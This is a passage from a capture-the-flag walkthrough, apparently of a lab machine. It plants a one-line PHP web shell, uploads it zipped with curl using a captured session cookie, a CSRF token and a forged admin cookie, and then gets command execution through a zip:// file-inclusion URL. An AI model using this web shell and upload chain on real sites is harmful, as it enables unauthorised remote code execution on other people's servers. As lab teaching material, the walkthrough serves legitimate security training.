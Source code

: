 First, create a zip with the payload:



    root@kali# cat cmd.php
    <?php echo system($_GET['cmd']); ?>
    root@kali# zip shell.zip cmd.php
      adding: cmd.php (stored 0%)



Now, use curl to upload to the site. To do this, we'll need the session
cookie and the CSRF token, and then we'll need to follow the location
that comes back as a http 302:



    root@kali# curl -sD - http://10.10.10.80/?op=upload -x 127.0.0.1:8080 | grep -e PHPSESSID -e 'name="token"'
    Set-Cookie: PHPSESSID=0v5980ekt4tqigv8e2dtlkvp54; path=/
            <input type="text" name="token" value="f7ab6fe8906a56cc11bc34238be8d1f5efd324c2dceb7f216c512fdea8b17a5e" />

    root@kali# curl -X POST -sD - -F "tip=<shell.zip" -F "name=a" -F "token=f7ab6fe8906a56cc11bc34238be8d1f5efd324c2dceb7f216c512fdea8b17a5e" -F "submit=Send Tip!" -x 127.0.0.1:8080 http://10.10.10.80/?op=upload -H "Referer: http://10.10.10.80/?op=upload" -H "Cookie: admin=1; PHPSESSID=0v5980ekt4tqigv8e2dtlkvp54" | grep Location
    Location: ?op=view&secretname=051f7db8f8de40c856efbed60179e6e1b0b528b1



Two things to note here:

1.  It's important to use the `-F` (\`--form) option here for the data.

2.  Most references to using curl to upload files show using the `@`
    symbol in front of the filename. That doesn't work in this case,
    because the site is expecting raw text. The curl man page explains
    why we'll use the `<` character:

    > To force the 'content' part to be a file, prefix the file name
    > with an @ sign. To just get the content part from a file, prefix
    > the file name with the symbol \<. The difference between @ and \<
    > is then that @ makes a file get attached in the post as a file
    > upload, while the \< makes a text field and just get the contents
    > for that text field from a file.

The source showed that the uploads are stored in `/uploads/[ip]/`, and
checking out the link for this file offers a binary file, which is a
good sign. Now, using the zip filter, we have code exec by visiting
`http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=id`
and seeing:



    uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)



